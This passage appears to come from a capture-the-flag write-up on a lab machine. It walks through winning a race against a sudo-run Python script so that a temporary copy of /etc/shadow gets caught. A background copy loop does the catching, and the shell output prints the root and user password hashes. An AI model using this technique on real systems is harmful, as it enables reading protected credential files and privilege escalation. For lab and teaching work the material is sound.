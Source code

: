 So what we now have here is a race with `BetterSSH.py`: we need to grab the copy of `/etc/shadow` created in `/tmp/SSH` before `BetterSSH.py` deletes it.

Can we do that? Absolutely! 

First, let's create a perpetual loop that would constantly copy everything from `/tmp/SSH/` to a convenient directory of our choosing, say `/home/robert/net`. (Because this loop is the `net` that will catch our `fish` ;))

Our `net` will look like this: `while true;do cp -r /tmp/SSH /home/robert/net;done &` (FYI, the `&` at the end of the command backgrounds our command):
```
robert@obscure:~$ mkdir net
robert@obscure:~$ ls -l
total 28
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 BetterSSH
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
drwxrwxr-x 2 robert robert 4096 May 29 10:58 net
-rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
-rwxrwxr-x 1 robert robert 2514 Oct  4  2019 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25  2019 user.txt
robert@obscure:~$ while true;do cp -r /tmp/SSH /home/robert/net;done &
[1] 28190
```
`[1] 28190` is the `pid` of our backgrounded command. Our net is ready.

We run `BetterSSH.py`:
```
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: a
Enter password: a
Invalid user
```
(Yes, you don't even need to enter correct credentials!)

Let's check our 'net':
```
robert@obscure:~$ ls -l net
total 4
drwxrwxr-x 2 robert robert 4096 May 29 11:05 SSH
robert@obscure:~$ ls -l net/SSH/
total 4
-rw-r--r-- 1 robert robert 249 May 29 11:05 pCtQ32Jo
```
Ka-boom! We caught the fish!
  
Let's cut up the fish and look inside:
```
robert@obscure:~$ cat net/SSH/pCtQ32Jo 
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7

robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
```
